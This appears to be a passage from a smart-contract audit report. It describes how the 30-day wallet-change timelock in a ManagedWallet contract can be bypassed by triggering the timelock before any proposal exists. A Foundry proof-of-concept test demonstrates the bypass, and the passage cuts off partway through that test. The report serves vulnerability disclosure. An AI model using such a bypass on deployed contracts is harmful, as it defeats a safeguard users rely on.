 However, the current 30-day wait period can be bypassed.
<br>

The expected order by the protocol is:
1. `proposeWallets()` is called by `mainWallet`.
2. To confirm the proposal, `confirmationWallet` sends at least 0.05 ether and causes the `receive()` function to trigger. This sets the `activeTimelock` to `block.timestamp + TIMELOCK_DURATION` i.e. 30 days into the future.
3. `proposedMainWallet` calls `changeWallets()` after 30 days and the new wallet addresses are set.

To bypass the 30-day limitation, the following flow can be used:
1. Even with no propsal for a change existing, `confirmationWallet` sends at least 0.05 ether and causes the `receive()` function to trigger. This sets the `activeTimelock` to `block.timestamp + TIMELOCK_DURATION` i.e. 30 days into the future.
2. Just as 30 days pass, 
    - `proposeWallets()` is called by `mainWallet`
    - Immediately, with no delay whatsoever, `proposedMainWallet` calls `changeWallets()`
3. The new wallet addresses are successfully assigned.

**Impact:** Although the users believe that any changes to wallet address is going to have a timelock of 30 days as promised by the protocol, it really can be bypassed by the current admins/wallet addresses. This breaks the intended functionality implmentation.

## Proof of Concept
Add the following inside `2024-01-salty/src/root_tests/ManagedWallet.t.sol` and run with `COVERAGE="yes" NETWORK="sep" forge test -vv --rpc-url https://rpc.sepolia.org/ --mt test_ManipulateActiveTimeLockBeforeProposingNewWallets`:
```js
    function test_ManipulateActiveTimeLockBeforeProposingNewWallets() public {
        // Set up the initial state with main and confirmation wallets
        address initialMainWallet = alice;
        address initialConfirmationWallet = address(0x2222);
        ManagedWallet managedWallet = new ManagedWallet(initialMainWallet, initialConfirmationWallet);

        // Set up the proposed main and confirmation wallets
        address newMainWallet = address(0x3333);
        address newConfirmationWallet = address(0x4444);

        // @audit : Even before any proposal exists, prank as the current confirmation wallet and send ether to start the TIMELOCK_DURATION 
        uint256 sentValue = 0.05 ether;
        vm.prank(initialConfirmationWallet);
        vm.deal(initialConfirmationWallet, sentValue);
        (bool success,) = address(managedWallet).call{value: sentValue}("");
        assertTrue(success, "Confirmation of wallet proposal failed");

        // Warp the blockchain time to the future beyond the active timelock period
        uint256 currentTime = block.timestamp;
        vm.warp(currentTime + TIMELOCK_DURATION);

        // Prank as the initial main wallet to propose the new wallets
        vm.startPrank(initialMainWallet);
        managedWallet.proposeWallets(newMainWallet, newConfirmationWallet);
        vm.stopPrank();

        // @audit : With NO DELAY, immediately prank as the new proposed main wallet which should now be allowed to call changeWallets
        vm.prank(newMainWallet);
        managedWallet.changeWallets();

        // Check that the mainWallet and confirmationWallet state variables are updated
        assertEq(managedWallet.mainWallet(), newMainWallet, "mainWallet was not updated correctly");
```